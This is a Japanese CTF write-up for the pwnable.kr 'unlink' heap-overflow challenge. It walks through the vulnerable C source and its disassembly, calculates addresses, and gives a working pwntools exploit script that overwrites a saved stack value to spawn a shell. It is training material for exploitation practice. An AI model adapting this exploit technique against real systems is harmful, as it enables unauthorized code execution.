



# 内容
まずはログインしてみる。

```bash
ssh unlink@pwnable.kr -p2222
unlink@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Oct  1 21:31:05 2019 from 118.238.217.72
unlink@prowl:~$ -la
total 40
drwxr-x---   5 root unlink     4096 Nov 28  2016 .
drwxr-xr-x 114 root root       4096 May 19 15:59 ..
d---------   2 root root       4096 Nov 23  2016 .bash_history
-r--r-----   1 root unlink_pwn   49 Nov 23  2016 flag
-rw-r-----   1 root unlink_pwn  543 Nov 28  2016 intended_solution.txt
dr-xr-xr-x   2 root root       4096 Nov 25  2016 .irssi
drwxr-xr-x   2 root root       4096 Nov 23  2016 .pwntools-cache
-r-xr-sr-x   1 root unlink_pwn 7540 Nov 23  2016 unlink
-rw-r--r--   1 root root        749 Nov 23  2016 unlink.c
unlink@prowl:~$ cat intended_solution.txt
cat: intended_solution.txt: Permission denied
unlink@prowl:~$ ./unlink
here is stack address leak: 0xff9553a4
here is heap address leak: 0xa017410
now that you have leaks, get shell!
end
unlink@prowl:~$ cat unlink.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}

```

今回はプログラムに記述されている通り、heap overflowの問題になる。
ディレクトリにあった、intended_solution.txtは何の用途で置いてあるのか不明だが、権限を取得できれば自ずと分かると思うので後回し。

# heap overflowとは
その名の通り、heap領域からデータがあふれ出ること。
動的に確保したデータの長さを制御しない場合に起こる。
一応付け足すと、データの長さとは、例えば、mallocで動的にメモリを確保したした時の長さなどになる。
今回、このような問題が起きた原因はgets()を使用した後、長さの制御をしていないから。
そもそも、gets()のような文字数の制御も何もない関数は使用しないほうが良い。
本来は、fgets()やscanf()といった関数を使用するか、fgets()とsscanf()を併用するべき。
また、よくscanfはバッファーオバーフローの危険性があると聞くが、それはフォーマット指定しを正確に指定していないからだと思う。
間違いなら恥ずかしい。
なお、windowsの場合はscanf_s()など、末尾に**_s**をつける独自関数があるので、既存の関数よりかはそちらを使った方が良い。


# 逆アセンブラの確認
heap overflowによって何が出来るのか、逆アセンブラで確認する。
まずはmainから見ていく。

## mainルーチン

```asm
    ; 引数のアドレスを代入
    ; Attributes: bp-based frame fuzzy-sp

    ; int __cdecl main(int argc, const char **argv, const char **envp)
    public main
    main proc near

    str_A= dword ptr -14h
    str_C= dword ptr -10h
    str_B= dword ptr -0Ch
    var_4= dword ptr -4
    argc= dword ptr  8
    argv= dword ptr  0Ch
    envp= dword ptr  10h

    ; __unwind {
000 lea     ecx, [esp+4]
000 and     esp, 0FFFFFFF0h
000 push    dword ptr [ecx-4] ; return addrをpush
000 push    ebp
004 mov     ebp, esp        ; ebp = esp
004 push    ecx             ; 引数アドレスを代入
008 sub     esp, 14h
01C sub     esp, 0Ch
028 push    400h            ; size
02C call    _malloc
02C add     esp, 10h
01C sub     esp, 0Ch
028 push    10h             ; size
02C call    _malloc
02C add     esp, 10h
01C mov     [ebp+str_A], eax
01C sub     esp, 0Ch
028 push    10h             ; size
02C call    _malloc
02C add     esp, 10h
01C mov     [ebp+str_B], eax
01C sub     esp, 0Ch
028 push    10h             ; size
02C call    _malloc
02C add     esp, 10h
01C mov     [ebp+str_C], eax
01C mov     eax, [ebp+str_A]
01C mov     edx, [ebp+str_B]
01C mov     [eax], edx
01C mov     edx, [ebp+str_A]
01C mov     eax, [ebp+str_B]
01C mov     [eax+4], edx
01C mov     eax, [ebp+str_B]
01C mov     edx, [ebp+str_C]
01C mov     [eax], edx
01C mov     eax, [ebp+str_C]
01C mov     edx, [ebp+str_B]
01C mov     [eax+4], edx
01C sub     esp, 8
024 lea     eax, [ebp+str_A]
024 push    eax
028 push    offset format   ; "here is stack address leak: %p\n"
02C call    _printf
02C add     esp, 10h
01C mov     eax, [ebp+str_A]
01C sub     esp, 8
024 push    eax
028 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
02C call    _printf
02C add     esp, 10h
01C sub     esp, 0Ch
028 push    offset s        ; "now that you have leaks, get shell!"
02C call    _puts
02C add     esp, 10h
01C mov     eax, [ebp+str_A]
01C add     eax, 8          ; str_A->buf
01C sub     esp, 0Ch
028 push    eax             ; s
02C call    _gets
02C add     esp, 10h
01C sub     esp, 0Ch
028 push    [ebp+str_B]
02C call    unlink 
02C add     esp, 10h
01C mov     eax, 0
01C mov     ecx, [ebp+var_4] ; mainの引数がある場所のアドレス
01C leave
000 lea     esp, [ecx-4]    ; return address
000 retn
    ; } // starts at 804852F
    main endp
```


まず、怪しいと感じるのが、初めの部分。

```asm
000 lea     ecx, [esp+4]
000 and     esp, 0FFFFFFF0h
000 push    dword ptr [ecx-4] ; return addrをpush
000 push    ebp
004 mov     ebp, esp        ; ebp = esp
004 push    ecx             ; 引数アドレスを代入
008 sub     esp, 14h
01C sub     esp, 0Ch
```

普通、ルーチンの始まりは、スタックの初期化をするのだが、なぜかlea命令で引数のアドレスの代入をしている。
普通にコンパイルすると、このような意味のない初期化は起きないと思われるため、CTF用にコンパイルした後、バイナリをいじったのだろう。あくまでも予想だが。

次に怪しいのが、最後の部分。

```asm

01C mov     ecx, [ebp+var_4] ; mainの引数がある場所のアドレス
01C leave
000 lea     esp, [ecx-4]    ; return address
000 retn
    ; } // starts at 804852F
    main endp
```

普通はleaveした後retnで終了するはずなのに、なぜかespに値を代入している。
これも、通常のコンパイルではありえないと思われるので、CTF用にバイナリをいじったのだろう。

とにかくstack領域をいじっているのはわかったので、追ってみる。
実際に追った結果が以下の図になる。





この時点では何をしたいのかよくわからないが、unlinkまで見ると理由が分かる。
結論から言うと、 argcのaddress値をshell()のアドレスに書き換えることが可能である。


## unlinkルーチン

では、unlinkの中身を見ていく。

```asm

    ;eaxのアドレスが(ebp -0x4) - 0x4
    ; Attributes: bp-based frame

    public unlink
    unlink proc near

    str_FD= dword ptr -8
    str_BK= dword ptr -4
    str_B= dword ptr  8


    ; __unwind {
000 push    ebp
004 mov     ebp, esp
004 sub     esp, 10h
014 mov     eax, [ebp+str_B] ; str_Bのheapアドレス
014 mov     eax, [eax+4]
014 mov     [ebp+str_BK], eax ; BK->fd = P->bk
                            ; P->bk = ebp - 0x4のアドレス
014 mov     eax, [ebp+str_B]
014 mov     eax, [eax]
014 mov     [ebp+str_FD], eax ; FD->fd = P->fd
                            ;
                            ; P->FD = buf + 4のアドレス
014 mov     eax, [ebp+str_FD] ; shelladdr
014 mov     edx, [ebp+str_BK] ; returnaddr
014 mov     [eax+4], edx    ; FD->bk = BK->fd
014 mov     eax, [ebp+str_BK] ; returnaddr
014 mov     edx, [ebp+str_FD] ; shelladdr
014 mov     [eax], edx      ; BK->fd = FD->fd
                            ; [eax] = ebp - 0x4のアドレス
                            ; edx = buf + 4のアドレス
                            ;
                            ; bufにbash関数のアドレス
014 nop
014 leave
000 retn
    ; } // starts at 8048504
    unlink endp
```

このルーチンで注目すべきは最後の文。

```asm
014 mov     [eax], edx      ; BK->fd = FD->fd
```

このeaxとedxだが、このルーチンを追うと、両方に引数str_Bが代入されていることが分かる。
* eax : BK-_>fd = str_B->bk
* edx : FD->fd = str_B->fd

ここで重要なのが、この引数str_Bはgets(str_A->buf)でstr_Aをoverflowさせることで任意の値を代入できる事である。
つまり、str_Bに何らかのaddressと書き換えるデータが入っていれば、unlinkルーチンで書き換えることが可能であることが分かる。

では、何を書き換えれば良いのかだが、今回はmainルーチンのargcのaddressをshellルーチンのアドレスに書き換える。
本当のところ、unlinkの戻り値を変えても何とかなると思うが、先に思いついたのがこっちで、これしかしてない。
幸いにも、今回のプログラムはstackとheapのアドレスを押しててくれるので、おそらくこれであっているはず。
また、補足だが、unlink以降に関数があるわけではないのでgot overwriteはできない。


## どこに何を代入するか
結論から言うと、heap領域に以下のように書き込むと良い。

* str_A->buf = shell addr
* dummy address = 0xc bytes
* str_B->fd = strA->bufのアドレス + 4 (unlinkのreturn addrを書き換える際は+4はいらないと思われる。やってないからわからない))
* str_B->bk = 書き換えたいアドレス


これを当てはめると、以下のようなフローになる。

まずはunlink

```asm
014 mov     eax, [ebp+str_FD] ; str_A->bufのアドレス + 4
014 mov     edx, [ebp+str_BK] ; 書き換えたいアドレス(argcのアドレス)
014 mov     [eax+4], edx    ; FD->bk = BK->fd
014 mov     eax, [ebp+str_BK] ; 書き換えたいアドレス(argcのアドレス)
014 mov     edx, [ebp+str_FD] ; str_A->bufのアドレス + 4
014 mov     [eax], edx      ; BK->fd = FD->fd
```

次にmainルーチンの終わりの部分。

```asm
01C mov     ecx, [ebp+var_4] ; argcのアドレス = str_A->bufのアドレス + 4
01C leave
000 lea     esp, [ecx-4]    ;  str_A->bufのアドレス + 4 -4 =  str_A->bufのアドレス
000 retn    str_A->bufのアドレス
    ; } // starts at 804852F
    main endp
```


## argcのアドレスとstr_A->buf+4のアドレスとshellのアドレス
今回のプログラムではstr_Aのスタックとヒープのアドレスを教えてくれるので、それを用いて、これらを算出していく。
### argcのアドレス
* argc = [ebp - 0x4]
* str_A->buf = [ebp - 0x14]

これらの差分は**0x14 - 0x04 = 0x10**となる。
よってargcのアドレスはstr_Aのスタックアドレスに0x10を足した値となる。

### str_A->buf+4のアドレス
現在のheap領域を考えると、以下のようになる。



よってstr_A->buf+4はstr_Aのヒープアドレスに0xcを足した値となる

### shellのアドレス
objdumpより0x080484eb 

```bash
$ objdump -d unlink | grep shell
080484eb <shell>:
```


# エクスプロイト
今回はunlinkの標準出力からstack, and heap addrを取得する。
実際のプログラムは以下。

```python
from pwn import *
from struct import pack
import re

shell = ssh("unlink", "pwnable.kr", 2222, "guest")
conn = shell.process(["/home/unlink/unlink"])
data = conn.recvuntil("get shell!\n").decode("ascii").replace("\n",";")
print(data)

# get stack addr and heap addr with regular expression
m = re.search('stack address leak: (.*);.*heap address leak: ([^;]+);.*', data)
stackaddr = int(m.group(1), 16)
heapaddr = int(m.group(2), 16)
print("stack addr = " + hex(stackaddr))
print("heap addr = " + hex(heapaddr))

argcaddr = pack("<I", stackaddr + 16)
bufaddr = pack("<I", heapaddr + 12)
shelladdr = pack("<I", 0x080484eb)
dummybyte = ("\x11" * 0xc).encode()

print("argc addr = " + hex(unpack(argcaddr)) )
print("dummy byte = " + dummybyte.decode() )
print("buffer addr" + hex(unpack(bufaddr)) )
print("shell func addr = " + hex(unpack(shelladdr)) )

conn.sendline(shelladdr + dummybyte + bufaddr + argcaddr)
conn.interactive()

```

実行結果は以下

```bash
$ python3 exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Opening new channel: execve(b'/home/unlink/unlink', [b'/home/unlink/unlink'], os.environ): Done
here is stack address leak: 0xff98c194;here is heap address leak: 0x819c410;now that you have leaks, get shell!;
stack addr = 0xff98c194
heap addr = 0x819c410
argc addr = 0xff98c1a4
dummy byte = \x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11
buffer addr0x819c41c
shell func addr = 0x80484eb
[*] Switching to interactive mode
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ id
uid=1094(unlink) gid=1094(unlink) egid=1095(unlink_pwn) groups=1095(unlink_pwn),1094(unlink)
$ $ cat flag
```
